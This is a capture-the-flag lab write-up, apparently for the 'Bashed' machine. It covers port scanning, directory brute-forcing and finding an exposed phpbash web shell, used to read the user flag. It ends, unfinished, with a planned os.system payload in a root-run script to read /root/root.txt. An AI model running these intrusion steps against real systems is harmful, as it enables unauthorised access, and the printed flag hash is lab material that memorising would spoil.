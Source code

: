 # MACHINE CHALLENGE: BASHED

## Challenge Description

##### Own system
Type below the hash that is inside the root.txt file in the machine. The file
can be found under /root on Linux machines and at the Desktop of the
Administrator on Windows.

##### Own User
Type below the hash that is inside the user.txt file in the machine. The file
can be found under /home/{username} on Linux machines and at the Desktop of the
user on Windows. 

```
IP Address: 10.10.10.68
OS: Linux
```

### NAME OF THE MACHINE AS A HINT?

Something about bash script vulnerability?

### PORTSCANNING w/ NMAP

Use `nmap` to see if we can detect what services our host is offering, what
operating system (and version) our host is running, what type of packet
filters/firewalls are in use, etc.

```
$ sudo nmap -A -sS -T4 10.10.10.68 > nmap.out

Starting Nmap 7.60 ( https://nmap.org ) at 2017-12-19 23:44 EST
Nmap scan report for 10.10.10.68
Host is up (0.45s latency).
Not shown: 999 closed ports
PORT   STATE SERVICE VERSION
80/tcp open  http    Apache httpd 2.4.18 ((Ubuntu))
|_http-server-header: Apache/2.4.18 (Ubuntu)
|_http-title: Arrexel's Development Site
```

So we have 1 open service running - http(80) - Apache httpd 2.4.18 on Ubuntu.

### ENUMERATING PORT 80 (HTTP)

Visiting the webpage we see something called 'Arrexel's Development Site':

```
http://10.10.10.68
```

<img src="index.html.jpg" width=500px/>

##### GOBUSTER

Bruteforce enumeration using `gobuster` yields..

```
$ gobuster -e -u 10.10.10.68 -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt

Gobuster v1.2                OJ Reeves (@TheColonial)
=====================================================
[+] Mode         : dir
[+] Url/Domain   : http://10.10.10.68/
[+] Threads      : 10
[+] Wordlist     : /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt
[+] Status codes : 204,301,302,307,200
[+] Expanded     : true
=====================================================
http://10.10.10.68/images (Status: 301)
http://10.10.10.68/uploads (Status: 301)
http://10.10.10.68/php (Status: 301)
http://10.10.10.68/css (Status: 301)
http://10.10.10.68/dev (Status: 301)
http://10.10.10.68/js (Status: 301)
http://10.10.10.68/fonts (Status: 301)
```

Poking through each of the discovered directories..

```
/dev/phpbash.min.php
/dev/phpbash.php
/css/carouFredSel.css
/css/clear.css
/css/common.css
/css/font-awesome.min.css
/css/sm-clean.css
/php/sendMail.php
/uploads
/images/ajax-document-loader.gif
/images/arrow.png
/images/favicon.png
/images/logo.png
```

##### PHPBASH.PHP

Reading through some of the scripts, came across `/dev/phpbash.php` that
seemed interesting (around line 102):

```
 <script type="text/javascript">
            var username = "";
            var hostname = "";
            var currentDir = "";
            var commandHistory = [];
            var currentCommand = 0;
            var inputTextElement = document.getElementById('inputtext');
            var outputElement = document.getElementById("output");
            var usernameElement = document.getElementById("username");
            getShellInfo();
            
            function getShellInfo() {
                var request = new XMLHttpRequest();
```

Loading this script appears to give us a session on the machine????

```
http://10.10.10.68/dev/phpbash.php
```

<img src="phpbash.php.jpg" width=500px/>

### OWN USER

Using the `phpbash.php` script as a session into the machine:

```
www-data@bashed :/var/www/html/dev# cd /home
www-data@bashed :/home# ls
arrexel
scriptmanager
www-data@bashed :/home# cd arrexel
www-data@bashed :/home/arrexel# ls
user.txt
www-data@bashed :/home/arrexel# cat user.txt
2c281f318555dbc1b856957c7147bfc1
```

### OWN MACHINE

On the machine, there is a directory called `/scripts` which stands out as an
area of interest as it has a `test.py` script owned by user `scriptmanager`
and a `test.txt` file owned by `root`. Wonder if we can some how use this
setup to copy the `/root/root.txt` file out to a place we can access?

```
www-data@bashed :/# ls -ld /scripts
drwxrwxr-- 2 scriptmanager scriptmanager 4096 Dec 4 18:06 /scripts
www-data@bashed :/# sudo -u scriptmanager ls -la /scripts
total 16
drwxrwxr-- 2 scriptmanager scriptmanager 4096 Dec 4 18:06 .
drwxr-xr-x 23 root root 4096 Dec 4 13:02 ..
-rw-r--r-- 1 scriptmanager scriptmanager 58 Dec 4 17:03 test.py
-rw-r--r-- 1 root root 12 Dec 19 21:32 test.txt
www-data@bashed :/# sudo -u scriptmanager cat /scripts/test.py
f = open("test.txt", "w")
f.write("testing 123!")
f.close
www-data@bashed :/# sudo -u scriptmanager python /scripts/test.py
cat: /root/root.txt.txt: Permission denied
```

Hm.. so I'm stuck.  What I don't know is how to:
1. edit the `test.py` to have the commands I want (e.g. cat /root/root.txt)
```
  import os
  os.system('cat /root/root.txt.txt >> test.txt')
```
2. execute the script with root priviledges
